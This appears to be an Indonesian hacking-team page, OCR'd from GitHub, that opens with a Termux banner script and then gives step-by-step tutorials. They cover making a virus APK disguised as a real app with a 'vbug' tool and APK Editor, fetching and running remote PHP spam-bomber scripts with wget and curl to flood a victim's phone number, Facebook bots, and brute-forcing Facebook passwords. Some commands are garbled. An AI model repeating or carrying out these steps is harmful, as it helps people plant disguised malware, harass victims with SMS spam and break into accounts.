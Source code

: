 blue='\e[1;34m' green='\e[1;32m' purple='\e[1;35m' cyan='\e[1;36m' red='\e[1;31m' white='\e[1;37m' yellow='\e[1;33m' NOW=`date "+%d.%m.%Y"` TIME=`date "+%H:%M"` cowsay -f eyes *Welcome To MRCX hacking tool* | lolcat toilet -f standard " *MRCX* " -F gay neofetch echo " Time : " $TIME | lolcat date | lolcat echo echo Username : marcyber team | lolcat echo Hostname : @MRCX~#root_system | lolcat echo echo @localhost:~# | lolcat echo root@localhost:~$ | lolcat echo -e $green echo root@MRCX:~$   TUTORIAL MEMBUAT VIRUS SEPERTI APLIKASI ASLINYA  Tools yang dibutuhkan: APK Editor &amp; tool vbug APK Editor bisa didownload di playstore Tool vbug https://www.mediafire.com/file/6hs6y71ryw10uvw/vbug.zip 1. Download tool vbugnya dulu 2. Taruh file tool vbug di luar folder pada memori internal 3. Buka termux lalu $ cd /sdcard 4. $ unzip vbug.zip 5. $ cd vbug 6. $ python2 vbug.py 7. Enter 8. Ketik 10 9. Ketik E 10. Aplikasi virusnya sudah jadi Setelah aplikasinya jad kita tinggal edit supaya mirip aslinya 1. Buka APK Editor 2. Klik Select an Apk File 3. Pilih aplikasi virus tadi 4. Klik full edit 5. Pada bagian kolom app_name tulis nama aplikasi yang kalian inginkan 6. Lalu klik files 7. Klik res/drawable 8. Logo yang kedua itu ganti dengan logo aplikasi yang kalian inginkan Catatan: format logo harus .png 9. Ceklist logo yang kedua lalu replace 10. Pilih file logo yang mau dijadikan logo aplikasi agan 11. Back sampai home Supaya aplikasi terlihat lebih nyata kita harus beri bobot pada aplikasi buatan kita 12. Klik tanda plus yang ada di bawah kiri, pilih file, lagu, gambar atau apapun yang coxok sebagai bobot apliaksi agan 13. Klik build 14. Tunggu hingga selesai 15. Jadi deh  VBugMaker Termux -apt update &amp;&amp; apt upgrade -apt install git -apt install python Donwload file ->http://upfile.mobi/YGwg8gQLuvv Pindah ke directory Next -unzip vbug.zip -mv vbug $HOME -cd vbug -ls -chmod +x vbug.py -python2 vbug.py #Done    BOOM SPAM DI TERMUX apt upgrade &amp;&amp; apt update apt install git  git clone https://github.com/Amriez/gcospam cd gcospam sh install.sh sh gco.sh Pilih nomer yang mana ajjh  Lalu Masukan nomer tanpa 0/62 Input bebas Jeda default aja  Spam bom mall $ pkg install update  $ pkg install upgrade $ pkg install wget $ pkg install php $ wget http://files-store.theprivat.ml/uploads/bom-mall.zip $ unzip bom-mall.zip $ cd bom-mall $ php run.php  (Install SpamTsel) $ pkg install curl  $ pkg install php  $ curl -s http://files-store.theprivat.ml/uploads/bombtsel.txt > bombtsel.php  $ chmod 777 bombtsel.php $ php bombtsel.php 3) Tool Spam LITESPAM $ pkg install php $ pkg install toilet $ pkg install sh  LITESPAM $ pkg install git $ git clone https://github.com/4L13199/LITESPAM $ cd LITESPAM $ sh LITESPAM.sh atau  bash LITESPAM.sh Masukan Nomer nya...   Spammer GRAB $pkg install python2 $pip2 install requests $pkg install git $git clone http://github.com/p4kl0nc4t/Spammer-Grab $cd Spammer-Grab $python2 spammer.py nomor hp korban --delay 30  spam sms jdid 1.PKG install PHP 2.pkg install cURL 3.curl https://pastebin.com/raw/9BYy1 JVc -o jdid.php 4.php jdid.php   Hacking spammer by seni $apt update &amp;&amp; apt upgrade $apt install python2 php $pip2 install requests $apt install nano $apt install git $git clone https://github.com/Senitopeng/ SpamSms.git $cd SpamSms $python2 mantan.py   HACKING DAN TRICK FB VIA TERMUX   AUTO BOOT FACEBOOK  $ git clone https://github.com/Senitopeng/BotFbBangDjon.git $ cd BotFbBangDjon $ python2 bangdjon.py  Cara crack id fb  https://findmyfbid.in/  git clone https://github.com/tomiashari/fb-autoreaction.git cd fb-autoreaction python2 fb-autoreaction  HACKING THOOLS MBF FACEBOOK $ pkg update &amp;&amp; upgrade ‬$ pkg update &amp;&amp; upgrade $ pkg install python2 $ pkg install git $ git clone https://github.com/pirmansx/mbf $ cd mbf $ python2 MBF.py  (HACKING FB LEWAT TERMUX) $ apt update $ apt upgrade  $ apt install python2 $ apt install python2-dev $ apt install wget $ dip2 install mechanize $ cd/sterage/emulated/0 $ python2 fbbrute.py ( yg tdi di download di tunda di luar folder )  Mungkin itu saja yang dapat saya bagikan, jika ada yang salah saya mohon maaf. Ingin Ikut Team Kami ? Klik Disini Website Team ? Klik Disini Website Umum ? Klik Disini  Di Atas Langit Masih Ada Langit Jadi, Jangan Sok Berkuasa Belum Tentu Anda Lebih Baik Dari Kami #WeDoNotForget #WeDoNotForgive #ExpectUs  Landy22  Salam Hangat,
